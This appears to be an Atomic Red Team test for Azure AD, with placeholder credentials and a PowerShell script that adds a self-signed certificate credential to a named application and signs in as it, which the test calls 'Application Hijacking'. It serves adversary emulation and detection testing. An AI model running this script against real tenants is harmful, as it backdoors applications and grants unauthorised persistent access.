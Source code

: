 **Supported Platforms:** Azure-ad


**auto_generated_guid:** a12b5531-acab-4618-a470-0dafb294a87a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Azure AD username | string | jonh@contoso.com|
| password | Azure AD password | string | p4sswd|
| application_name | Name of the targeted application | string | SuperApp|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module -Name AzureAD
$PWord = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Pword
Connect-AzureAD -Credential $Credential > $null

$app = Get-AzureADApplication -SearchString "#{application_name}" | Select-Object -First 1
if ($app -eq $null) { Write-Warning "Application not found"; exit }

# in the context of an ART test (and not a real attack), we don't need to keep access for too long. In case the cleanup command isn't called, it's better to ensure that everything expires after 1 day so it doesn't leave this backdoor open for too long
$credNotAfter = (Get-Date).AddDays(1)
$certNotAfter = (Get-Date).AddDays(2) # certificate expiry must be later than cred expiry

$cert = New-SelfSignedCertificate -DnsName "atomicredteam.example.com" -FriendlyName "AtomicCert" -CertStoreLocation Cert:\CurrentUser\My -KeyExportPolicy Exportable -Provider "Microsoft Enhanced RSA and AES Cryptographic Provider" -NotAfter $certNotAfter
$keyValue = [System.Convert]::ToBase64String($cert.GetRawCertData())
Write-Host "Generated certificate ""$($cert.Thumbprint)"""

New-AzureADApplicationKeyCredential -ObjectId $app.ObjectId -Type AsymmetricX509Cert -CustomKeyIdentifier "AtomicTest" -Usage Verify -Value $keyValue -EndDate $credNotAfter

Start-Sleep -s 30
$tenant = Get-AzureADTenantDetail
$auth = Connect-AzureAD -TenantId $tenant.ObjectId -ApplicationId $app.AppId -CertificateThumbprint $cert.Thumbprint
Write-Host "Application Hijacking worked. Logged in successfully as $($auth.Account.Id) of type $($auth.Account.Type)"
Write-Host "End of Hijacking"
```
